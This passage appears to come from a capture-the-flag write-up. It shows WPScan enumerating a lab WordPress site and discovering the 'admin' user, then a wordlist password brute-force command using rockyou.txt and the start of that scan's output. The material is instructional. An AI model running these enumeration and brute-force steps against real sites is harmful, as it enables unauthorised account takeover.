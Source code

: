 ```
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.209.187/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.209.187/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=============================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Oct  1 22:45:04 2022
[+] Requests Done: 26
[+] Cached Requests: 27
[+] Data Sent: 6.335 KB
[+] Data Received: 123.233 KB
[+] Memory used: 158.344 MB
[+] Elapsed time: 00:00:02
```

So, we see user `admin`

#### Password attack 

```
vladislav@Mac ~ % wpscan --url 10.10.209.187/blog --passwords /Users/vladislav/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.209.187/blog/ [10.10.209.187]
[+] Started: Sat Oct  1 22:48:58 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.209.187/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
```